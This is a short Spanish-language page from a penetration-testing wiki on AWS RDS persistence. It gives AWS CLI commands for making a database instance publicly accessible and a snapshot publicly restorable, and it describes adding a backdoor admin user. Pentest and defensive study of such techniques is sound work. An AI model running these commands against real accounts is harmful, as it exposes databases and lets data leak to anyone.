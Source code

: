 # AWS - Persistencia en RDS

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Para más información, consulta:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Hacer que la instancia sea accesible públicamente: `rds:ModifyDBInstance`

Un atacante con este permiso puede **modificar una instancia de RDS existente para habilitar la accesibilidad pública**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Crear un usuario administrador dentro de la DB

Un atacante podría **crear un usuario dentro de la DB** para que, incluso si se modifica la contraseña del usuario maestro, **no pierda el acceso** a la base de datos.

### Hacer la instantánea pública
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
